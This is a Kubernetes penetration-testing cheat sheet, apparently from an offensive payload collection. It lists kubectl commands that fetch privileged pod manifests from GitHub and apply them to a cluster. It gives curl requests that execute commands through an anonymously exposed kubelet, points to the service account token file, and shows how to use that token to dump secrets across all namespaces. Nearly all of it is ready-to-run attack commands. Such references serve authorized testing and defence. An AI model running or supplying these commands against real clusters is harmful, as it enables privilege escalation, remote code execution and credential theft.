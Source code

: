 # Container - Kubernetes Pentest

> Kubernetes commonly stylized as K8s) is an open-source container orchestration system for automating software deployment, scaling, and management.

## Summary

- [Tools](#tools)
- [Accessible kubelet on 10250/TCP](#accessible-kubelet-on-10250tcp)
- [Obtaining Service Account Token](#obtaining-service-account-token)
- [References](#references)

## Tools

* [BishopFox/badpods](https://github.com/BishopFox/badpods) - A collection of manifests that will create pods with elevated privileges.
    ```ps1
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/priv-and-hostpid/pod/priv-and-hostpid-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/priv/pod/priv-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpath/pod/hostpath-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpid/pod/hostpid-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostnetwork/pod/hostnetwork-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostipc/pod/hostipc-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/nothing-allowed/pod/nothing-allowed-exec-pod.yaml
    ```
* [serain/kubelet-anon-rce](https://github.com/serain/kubelet-anon-rce)

## Accessible kubelet on 10250/TCP

Requirements:
* `--anonymous-auth`: Enables anonymous requests to the Kubelet server

* Getting pods: `curl -ks https://worker:10250/pods`
* Run commands: `curl -Gks https://worker:10250/exec/{namespace}/{pod}/{container} -d 'input=1' -d 'output=1' -d'tty=1' -d 'command=ls' -d 'command=/'`

## Obtaining Service Account Token

Token is stored at `/var/run/secrets/kubernetes.io/serviceaccount/token`

Use the service account token:
* on kube-apiserver API: `curl -ks -H "Authorization: Bearer <TOKEN>" https://master:6443/api/v1/namespaces/{namespace}/secrets`
* with kubectl: ` kubectl --insecure-skip-tls-verify=true --server="https://master:6443" --token="<TOKEN>" get secrets --all-namespaces -o json`


## References

* [Attacking Kubernetes through Kubelet - Withsecure Labs- 11 January, 2019](https://labs.withsecure.com/publications/attacking-kubernetes-through-kubelet)